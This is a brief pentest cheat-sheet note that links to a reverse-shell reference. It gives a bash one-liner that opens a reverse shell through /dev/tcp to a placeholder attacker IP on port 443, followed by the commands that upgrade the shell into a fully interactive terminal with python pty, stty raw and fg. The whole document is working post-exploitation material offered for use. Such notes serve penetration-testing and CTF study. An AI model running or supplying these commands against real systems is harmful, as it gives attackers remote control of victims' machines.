 https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

One liner bash shell
```
bash -c "bash -i >& /dev/tcp/<IP>/443 0>&1"
```

How to make a fully interactive shell
```
## Python version needed for this to run properly
python3 -c 'import pty;pty.spawn("/bin/bash")' 
CTRL+Z 
stty raw 
-echo 
fg 
export TERM=xterm

#not all steps may be needed
```
